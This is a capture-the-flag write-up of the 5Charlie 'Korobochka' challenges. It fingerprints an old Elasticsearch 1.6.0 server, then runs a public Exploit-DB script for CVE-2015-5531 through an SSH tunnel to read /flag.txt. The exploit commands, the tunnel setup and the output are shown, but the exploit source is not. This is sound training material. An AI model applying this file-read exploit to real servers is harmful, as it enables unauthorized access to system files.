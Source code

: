 ```yaml
---
layout: post
title:  "5Charlie CTF - Korobochka"
date:   2020-04-28 20:32:38 -0500
categories: [ctf, write-up, elastic, linux, hacking]
---
```


## Korobochka 1

### Korobochka 1 - Challenge

To access these challenges, ssh to korobochka@haxor.5charlie.com using the attached private key.

What is the version number of the elasticsearch service running on 172.90.0.2?

**Attachments:** `id_korobochka` - SSH Key

### Korobochka 1 - Solution

The default port for ElasticSearch is 9200, so let's just curl that.

{% highlight bash %}
curl http://172.90.0.2:9200
{% endhighlight %}

``` text
bash-5.0$ curl http://172.90.0.2:9200
{
  "status" : 200,
  "name" : "Attuma",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.6.0",
    "build_hash" : "cdd3ac4dde4f69524ec0a14de3828cb95bbb86d0",
    "build_timestamp" : "2015-06-09T13:36:34Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.4"
  },
  "tagline" : "You Know, for Search"
}
```

There it is!

**Flag:** `1.6.0`

## Korobochka 2

### Korobochka 2 - Challenge

What is the flag in /flag.txt on 172.90.0.2? (format: flag{some_text})

### Korobochka 2 - Solution

Given that this version is very old, the challenge is asking for something that's not normally available in Elastic, and we just had to figure out the version of the service, it's a fair bet that we're looking for an exploit for the service.

Nailed it. First result on Google for me:
https://www.exploit-db.com/exploits/38383

{% highlight bash %}
python2 38383.py localhost /flag.txt
{% endhighlight %}

``` text
bash: python: command not found
```

Oh... That's fine, we'll just make an SSH tunnel and run it on our own box.

{% highlight bash %}
ssh -Nf -L 9200:172.90.0.2:9200 -o "identitiesOnly=yes" -i ./id_korobochka korobochka@haxor.5charlie.com
{% endhighlight %}

If you're not familiar with SSH tunneling, here's a quick breakdown of the above.

- `-N`: Do not execute a remote command.  This is useful for just forwarding ports.
- `-f`: Requests ssh to go to background just before command execution. (So we can reuse the terminal)
- `-L`: Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.
  - `[bind_address:]port:host:hostport`
  - ELIF: We're telling SSH to forward any traffic that goes to our local port 9200 across the SSH tunnel and then send it to `172.90.0.2:9200`

The other options aren't really useful to the tunnel, feel free to look them up.

Now that our tunnel is set up, let's run it.

{% highlight bash %}
python2 38383.py localhost /flag.txt
{% endhighlight %}

``` text
➜  korobochka python2 38383.py localhost /flag.txt
!dSR script for CVE-2015-5531

flag%7Byou_know%2C_for_search%7D
```

**Flag:** `flag{you_know,_for_search}`

## Additional Notes

I'll be honest, I actually tunneled at the very beginning.
When it comes to database-related challenges, I usually start with that and forward it to a local GUI so that I can access the information faster.

For this chall I tried forwarding it to DataGrip, Kibana, and DejaVu, but unfortunately the version of Elastic was so lod that none of them could communicate properly.

Usually this is a very effective technique for me though, especially DataGrip.
